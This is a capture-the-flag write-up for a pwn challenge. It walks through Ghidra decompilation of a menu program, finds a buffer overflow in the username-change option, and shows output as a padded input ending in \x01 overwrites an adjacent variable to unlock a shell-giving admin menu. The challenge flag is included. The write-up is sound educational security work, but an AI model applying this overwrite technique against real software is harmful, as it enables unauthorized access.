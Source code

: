 This write up is for the variable pwn challenge

The first thing I do I look at is the type of file and I run checksec in order to find the protections on this binary

From this

I then opened it up in Ghidra.

```C
undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined4 local_48;
  undefined1 local_44;
  undefined4 local_18;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  local_48 = 0x72657375;
  local_44 = 0;
  local_18 = 0;
  do {
    local_14 = printMenu(&local_48,&local_18);
  } while (local_14 != 1);
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
```
It looks like it just calls a print menu function, let's have a look at that. Ok that definitly how we are gonna be popping our shell. 

```C
    case 7:
      if (*param_2 != 1) goto switchD_001014cf_caseD_0;
      giveShell
```

It looks like if we can just call this case we can pop our shell, so our param_2 somehow needs to get set to 1. After looking through the other menu options it looks like we have a overflow in case 5.

```C
    case 5:
      puts("What would you like your new name to be?");
      getline(&local_48,local_40,stdin);
      iVar1 = __isoc99_sscanf(local_48,&DAT_001021a9,param_1);
      if (iVar1 != 1) {
        printf("Error reading in new name");
        *param_1 = 0x72657375;
        *(undefined1 *)(param_1 + 1) = 0;
      }
```

```C
printf("%d\n",(ulong)*param_2)
```

It also looks like the value of param_2 is displayed at the top whenever the program runs

```
1094795585
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, what kind of math will you do today?
1. Add two numbers
2. Subtract two numbers
3. Multiply two numbers
4. Divide two numbers
5. Change username
6. Exit
> 

```
 It seems that after entering a bunch of A's the value changed, but how is it being affected. I then kept putting less and less A'a untill I found where the over flow happens.

 ```
65
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, what kind of math will you do today?
1. Add two numbers
2. Subtract two numbers
3. Multiply two numbers
4. Divide two numbers
5. Change username
6. Exit
> 

```

Ok, so it looks like it is printing the representation of the A in decimal. I then created a script to send in that number of A's then \x01 to change the value to one and...

```
1
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x01, what kind of math will you do today?
1. Add two numbers
2. Subtract two numbers
3. Multiply two numbers
4. Divide two numbers
5. Change username
6. Exit
7. Go to the admin prompt

```

I was able to get that menu option! Now I can just hit 7 to print my flag

CWE{you_dont_always_need_eip_E7pyjtjK}
